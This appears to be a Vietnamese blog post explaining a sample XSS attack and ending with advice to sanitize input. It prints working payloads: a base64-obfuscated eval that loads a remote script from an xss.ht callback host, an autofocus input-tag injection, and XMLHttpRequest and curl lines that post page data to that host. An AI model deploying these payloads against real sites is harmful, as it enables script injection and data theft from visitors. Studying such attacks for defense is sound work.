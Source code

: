 ```yaml
---
title: (Vi) XSS attack sample
author: lk
---
```


Disclaimer: Kỹ thuật này có thể đã lạc hậu tại thời điểm bài  này đuợc viết ;).

**XSS attack là kỹ thuật tấn công khá phổ biến bên cạnh SQL injection. Hãy cùng xem thử một ví dụ mà attacker inject thành công một đọan mã độc vào hệ thống nhé!**


Đầu tiên, hãy chạy đoạn thử js này trong js console

```js
> atob('dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vZDB4NS54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7')

> 'var a=document.createElement("script");a.src="https://d0x5.xss.ht";document.body.appendChild(a);'
```
một vài browser hiện đại thì đã chặn việc chạy các đoạn mã độc như trên


```
> # thử eval đoạn mã độc phía trên 
> eval(atob('dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vZDB4NS54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7'))

> VM91:1 This document requires 'TrustedScript' assignment and no 'default' policy for 'TrustedScript' has been defined.
(anonymous) @ VM91:1
VM91:1 Uncaught EvalError: Refused to evaluate a string as JavaScript because 'unsafe-eval' is not an allowed source of script in the following Content Security Policy directive: "script-src chrome://resources 'self'".
```


Nếu bạn tò mò, tận mắt thấy, hãy nhúng đoạn code dưới này vào file html bất kỳ nào đó, mở ở chế độ **private mode**
```
<input
    onfocus=eval(atob(this.id))
    id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vZDB4NS54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7
 autofocus>
```
link đến thư viện mà attacker xài, https://d0x5.xss.ht/ . Biết đâu bạn có thể modify một vài thông tin gửi về attacker = việc modify data 
gửi về cho attacker trong hàm bên dưới
```
    var http = new XMLHttpRequest();
    var url = "https://d0x5.xss.ht/page_callback";
    http.open("POST", url, true);
    http.setRequestHeader("Content-type", "text/plain");
    http.onreadystatechange = function() {
        if(http.readyState == 4 && http.status == 200) {

        }
    }
    http.send( JSON.stringify( page_data ) );
}
```
Hoặc callback luôn bằng curl
```
> curl -v -XPOST 'https://d0x5.xss.ht/page_callback' -d'{"page_html":"fuckyou", "uri":"fuck you again"}'
```

**Hãy luôn sanitize input data có kiểu string ;) và kỹ hơn nữa thì nên sanitize data load từ database khi render html page.**
Hoặc nên dùng các thư viện ORM có hỗ trợ việc sanitize/ cast các malicious input data này.

Nếu bạn còn tò mò, hãy vọc vạch thêm từ đây https://xsshunter.com/
